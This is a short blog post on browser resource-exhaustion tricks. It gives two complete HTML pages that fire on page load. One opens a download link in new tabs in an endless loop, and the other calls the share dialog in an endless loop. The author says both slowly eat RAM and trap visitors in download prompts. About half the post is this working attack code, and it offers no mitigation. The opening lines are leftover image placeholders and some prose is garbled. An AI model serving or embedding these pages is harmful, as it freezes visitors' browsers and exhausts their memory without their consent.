


Huge websites
These everyone uses browsers, there are still subtle ways for static websites to bleed your resources
and occupy your screen and this blog will mention a few of these.
Browsers tested: [Chrome, Edge, Brave]
1.Infinite downloads
The following html code will open infinite pop ups, well you might say what’s the big deal?
Well, this will not just open infinite pop ups, it will open download links, thus you need to engage
and specify the download path before closing the site, imagine that for infinite tabs. If your
download path is taken by default then you will have to close all the downloads initiated.
OK, what’s the big deal, you may have pop ups disabled in your browser. But, even though the pop ups
are blocked, the browser allocated ram to the infinite downloads. Which can be a huge potential
exploit in case of static websites which appear harmless.
The following is the code and ram usage on windows 11 with 8GB ram:
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Auto-Open Link in New Tab</title>
<script>
window.onload = function() {
for (;;) {
window.open('https://github.com/ChrompyCoder/secuRIT-event-documentations./releases/download/v1.0.0/sample.tar', '_blank');
}
};
</script>
</head>
<body>
<h1>Welcome</h1>
<p>Open a website/download link infinite times to block a user to use browser.</p></br>
<p>Infinite websites block the user to further use their browser until the download prompt is satisfied or cancel all the mass downloads</p>
</body>
</html>

There is no sudden spike but rather the slow allocation of resource over time
2.Infinite shares
The following will open infinite share tabs infinitely. This can be used as a daemon on static websites which will slowly eat your ram:
<!DOCTYPE html>
<html>
<head>
<title>Share Link</title>
</head>
<body>
<h1>Share This Link</h1>
<script>
function shareLink() {
for(;;){
navigator.share({
url: 'https://example.com/share'
})}
}
window.onload = function() {
shareLink();
};
</script>
</body>
</html>

Same as before there is no spike but rather slow allocation of ram.
The browser does not detect these until huge chunk ram is used.
@sanEdit this blog